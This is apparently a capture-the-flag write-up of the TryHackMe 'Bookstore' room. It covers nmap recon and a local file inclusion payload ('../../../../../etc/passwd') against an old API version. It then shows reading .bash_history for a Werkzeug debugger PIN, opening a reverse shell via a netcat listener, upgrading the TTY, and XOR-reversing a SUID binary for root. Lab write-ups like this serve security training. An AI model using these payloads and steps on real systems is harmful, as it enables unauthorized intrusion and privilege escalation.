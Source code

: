 ```yaml
---
title: Tryhackme-Bookstore
tags: [Api, security, Tryhackme, Cybersecurity, CTF]
layout: post
---  
```



Bookstore is medium rated room in tryhackme where attacker can test their api hacking skills. It contains some basic api vulnerability by leveraging which attacker had to gain full access to the machine. Let's start.
## Initial recon

The first thing we do is run nmap against the target ip and find out which ports are opened.
`nmap 10.10.247.2 -sC -sV`. The output of the command is shown below.
```
┌──(samsec㉿kali)-[/usr/share/dict]
└─$ nmap 10.10.247.2 -sC -sV    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:06 +0545
Nmap scan report for 10.10.247.2 (10.10.247.2)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: Home
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.13 seconds
```

We see 3 ports are opened. Webserver is running on port 80, we have ssh opening and some api running in port 5000. Let's check out the web app first on port 80.

## Web App Enumeration

There's nothing much in the website. We see normal interface and no much endpoints rather than a single login page. We can't signup or create the users also. 
![Image](/assets/img/bookstore/website.png)
![Image](/assets/img/bookstore/login.png)

So, let's head towards enumerating API on port 5000.

## API enumeration

We see the foxy REST API running. What can we do further if we don't have API documentation? Nothing. It's time to do directory bruteforcing or we can check out robots.txt file and find out the disallowed entry for /api.
![Image](/assets/img/bookstore/robots.png)

When viewing the /api endpoints , now we see the documentation for API. We see some endpoints that the API accepts. We view all the available endpoints manually and at the same time we keep our burp running on background so that we can analyze the endpoints further.![Image](/assets/img/bookstore/documentation.png)

When viewing all the endpoints, I didn't find anything interesting. After roaming around the website further, I check the js files. When viewing /api.js file, there is something left over in the comment. ![Image](/assets/img/bookstore/comment.png)

Guess what??. There was LFI vulnerability in the previous version of API ie. v1. Now they updated the version to v2 patching the previous vulnerability.
When you are testing the API, it's always a good practice to look around for Improper Assets Management(changing the version of the api to lower and seeing how the api reacts to the older version). I tried to figure out the changes in older version long time but couldn't move further. I was stuck for a moment. I get lost because  i kept testing the `10.10.247.2:5000/api/v2/resources/books/random4` , trying to find out it accepts any parameters in the older version by which we can find out the LFI issues. This endpoint was safe cause the older version ie. `10.10.247.2:5000/api/v1/resources/books/random4` was removed and replaced with the new one. 
After hanging for a minute, I read the documentation thoroughly and i noticed something. 
![Image](/assets/img/bookstore/interesting.png)

2 or more??? What does that means?? Does this endpoint accepts some other parameters too. To my surprise it did. Running Param Miner on this endpoint reveal `show` parameter. If you append this parameter with value `../../../../../etc/passwd` you get same results as with 2 parameters. But there was vulnerability in previous version right?? So let's check the older version and BOOM!! We get the /etc/passwd of the server. 

![Image](/assets/img/bookstore/lfi.png)

We found the LFI issue in the API. What's next??

## Gaining access to the machine

I tried to read the .ssh/id_rsa if any cause i know there is ssh opened but this  lead to nowhere. When directory bruteforcing the website, I found the endpoint `/console` . And also there is commented line in login.html that says the debugger pin is in the .bash_history file. 
![Image](/assets/img/bookstore/debugger.png)

So, the goal is to get the pin using LFI in the .bash_history file and accessing the /console using that pin. 
![Image](/assets/img/bookstore/pin.png)

Access the console using the pin and run the reverse shell on the console.
You can get the reverse shell payload from `revshells.com` . Set the netcat listener and run the payload and get the reverse shell. 
```
┌──(samsec㉿kali)-[~]
└─$ nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.17.70.133] from (UNKNOWN) [10.10.247.2] 49434
$ whoami
whoami
sid
$ 

```

You can clean up the tty shell with following lines of command. 
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty; pty.spawn("/bin/bash")'

hit CTRL+Z to run the process in backgroung and run below command
stty raw -echo && fg

the process will run in foreground after this and type reset
and type xterm,
for colorful shell export the term variable. 

export TERM=xterm
You will get fully interactive shell.

```

You can get the user flag easily by doing `cat user.txt`

Now it's time to get the root flag.

## Privilege Escalation

There is binary file having suid bit set called `tryharder`. When running the file, we are prompted to enter the magic number and if that'st correct , we will get the shell, I guess?
```
sid@bookstore:~$ ls
api.py  api-up.sh  books.db  try-harder  user.txt
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
123
Incorrect Try Harder
sid@bookstore:~$
```

Let's do some reversing using Ghidra. Download the binary to the local machine by hosting python server in the machine and wget to download it.
```
┌──(samsec㉿kali)-[~]
└─$ cd /tmp
                                                                                                                                                  
┌──(samsec㉿kali)-[/tmp]
└─$ wget 10.10.247.2:8000/try-harder
--2023-10-11 19:40:36--  http://10.10.247.2:8000/try-harder
Connecting to 10.10.247.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8488 (8.3K) [application/octet-stream]
Saving to: ‘try-harder’

try-harder                           100%[====================================================================>]   8.29K  --.-KB/s    in 0s      

2023-10-11 19:40:37 (176 MB/s) - ‘try-harder’ saved [8488/8488]
```

When decompiling the binary in Ghidra we see the function as:
![Image](/assets/img/bookstore/ghidra.png)

That's it. The goal is to find out the number a where `a ^ 23987 ^4374 = 1573724660` where `^` represents XOR and I've decoded the hex value into decimal. On doing so we get the value of a which is the number we need to input in order to get the shell.
```
┌──(samsec㉿kali)-[/tmp]
└─$ python3 
Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5db3
23987
>>> 0x1116
4374
>>> 0x5dcd21f4
1573724660
>>> 23987 ^ 4374 ^ 1573724660
1573743953
>>> 

```

We get the shell as root. Now we completed the room.![Image](/assets/img/bookstore/root.png)

It was little bit overwhelming to get the initial foothold and root was a bit messy for me because i was new to Ghidra when doing this room. Anyway this room teach  me lot more stuffs about about API enumeration and reverse engineering. That much for this blog.
